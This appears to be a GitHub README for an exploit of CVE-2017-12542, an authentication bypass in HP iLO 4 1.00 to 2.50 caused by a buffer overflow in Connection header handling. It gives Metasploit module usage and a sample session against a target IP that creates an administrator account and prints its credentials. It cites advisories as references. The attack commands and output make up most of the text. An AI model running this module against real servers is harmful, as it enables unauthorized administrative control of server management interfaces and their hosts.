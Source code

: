 # CVE-2017-12542

CVE-2017-12542 - HP iLO 4 1.00-2.50 Authentication Bypass Administrator Account Creation

This module exploits an authentication bypass in HP iLO 4 1.00 to 2.50, triggered by a buffer overflow in the Connection HTTP header handling by the web server. Exploiting this vulnerability gives full access to the REST API, allowing arbitrary accounts creation.

## Usage

```bash
msf5 > use auxiliary/admin/hp/hp_ilo_create_admin_account
```

## Examples

```bash
msf5 > use auxiliary/admin/hp/hp_ilo_create_admin_account
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > set RHOSTS 10.10.10.16
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > set USERNAME MyAdmin
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > run
[*] Running module against 10.10.10.16

[*] Trying to create account MyAdmin...
[+] Account MyAdmin/A7ay2i110sSa created successfully.
[*] Auxiliary module execution completed[/code]
```

## References

- [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2017-12542)
- [Exploit-db.com](https://www.exploit-db.com/exploits/44005)
- [Support.hpe.com](https://support.hpe.com/hpesc/public/docDisplay?docId=emr_na-hpesbhf03769en_us)
